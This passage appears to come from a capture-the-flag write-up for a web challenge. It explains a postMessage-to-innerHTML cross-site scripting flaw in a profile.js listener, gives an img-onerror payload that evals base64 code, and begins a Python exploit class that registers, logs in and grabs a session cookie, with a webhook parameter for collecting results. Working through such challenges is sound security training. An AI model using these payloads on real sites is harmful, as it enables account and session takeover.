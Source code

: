 ```json
    }
    
```
    
we successfully popped the alert but origin is 'null' due to sandbox iframe.

Secondary XSS Vector (profile.js):

```javascript
    window.addEventListener(
        "message",
        (event) => {
            if (event.source !== frames[0]) return;
            document.getElementById(
                "totalTasks"
            ).innerHTML = `<p>Total tasks completed: ${event.data.totalTasks}</p>`;
        },
        false
    );
// Unsafe innerHTML with user-controlled data
 ```
    
finally Send postMessage to EventListener to exploit the second XSS vulnerability:
    
```javascript
    (async () => {
        parent.postMessage({ totalTasks: "<img/src/onerror=eval(atob(payloadb64))>" }, "*");
    })();
    
```
    

### Solution Script

```python
import httpx
import base64
import datetime
from typing import Optional

class WorkBreakExploit:
    def __init__(self, domain: str, webhook: str):
        self.domain = domain
        self.webhook = webhook
        self.client: Optional[httpx.AsyncClient] = None
        self.sid: Optional[str] = None

    async def __aenter__(self):
        self.client = httpx.AsyncClient()
        return self

    async def __aexit__(self, exc_type, exc_val, exc_tb):
        if self.client:
            await self.client.aclose()

    async def create_session(self, email: str = "zwx@xin.cn", password: str = "zz1337") -> None:
        """Create user session and store SID"""
        await self.client.post(
            f"http://{self.domain}/api/auth/signup",
            json={"email": email, "password": password}
        )
        login_res = await self.client.post(
            f"http://{self.domain}/api/auth/login",
            json={"email": email, "password": password},
            follow_redirects=False
        )
        self.sid = login_res.cookies.get("SID")
```
